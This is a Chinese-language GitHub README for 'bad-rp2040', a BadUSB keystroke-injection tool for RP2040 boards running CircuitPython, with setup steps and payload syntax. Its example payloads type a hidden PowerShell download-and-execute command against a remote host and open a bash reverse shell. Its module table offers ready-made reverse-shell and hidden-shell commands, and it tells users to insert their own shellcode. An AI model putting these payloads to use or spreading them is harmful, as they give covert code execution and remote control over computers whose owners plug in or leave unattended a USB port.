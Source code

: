 # bad-rp2040

<p align="center">
    <img src="https://s2.loli.net/2024/12/05/EVOFhpTyHABv9Na.webp" alt="logo.webp" width="300" />
</p>



## 使用教程

虽然名字叫做bad-rp2040，但理论上它可以支持其他能够使用CircuitPython的板子。

* 第一步
  
  按住BOOT按键进入烧入模式从[这里](https://circuitpython.org/board/raspberry_pi_pico/)找到合适的CircuitPython固件烧入

* 第二步
  
  烧入完成后再下载项目文件，修改payload.txt为你想要的内容，之后写入磁盘模式的开发板

* 第三步
  
  重新插拔开发板，不出意外开发板会自动模拟按键输入编写好的payload


### payload语法

> 目前尚在开发中，很多功能并不全面画横线的表示正在开发中

可用案例：

#### windows

```badusb
set Time 1
POWERSHELL
TOGGLE_INPUT
ECHO powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.255.1:8029/a'))"
```

#### linux

```badusb
set Time 1
LINUX_OPENSHELL
LINUX_RESHELL 127.0.0.1 4444
```

将最后的echo内容替换为你的shellcode即可

内置了快捷使用的模块

| 命令     | 作用                       |
-----------|---------------------------|
| POWERSHELL | 快速拉起powershell     |
| TOGGLE_INPUT | 快速切换输入法     |
| LINUX_OPENSHELL | 快速拉起linux shell   |
| LINUX_RESHELL | 使用bash -i反弹shell模板   |
| ECHO | 输出字符串     |

根据需求调用即可，echo语句用于输出字符串

### 语法表

| 命令     | 作用                       |
-----------|---------------------------|
| set Time | 设置命令隔时间 不建议太快    |

#### 注意

如自行编写payload.txt，请注意windows的自动大小写问题

### 后续开发计划

短期
* 完成目前列出的所有模组
* 完成计划的语法

长期
* 是否可以做到监听键盘输入

![run](https://s2.loli.net/2024/12/04/d4NjluG9nEImwUB.png)
![shell](https://s2.loli.net/2024/12/04/oTHgaxBFnsqUGNM.png)
![linux](https://s2.loli.net/2024/12/05/s46Hu5qOYEkiKX3.png)
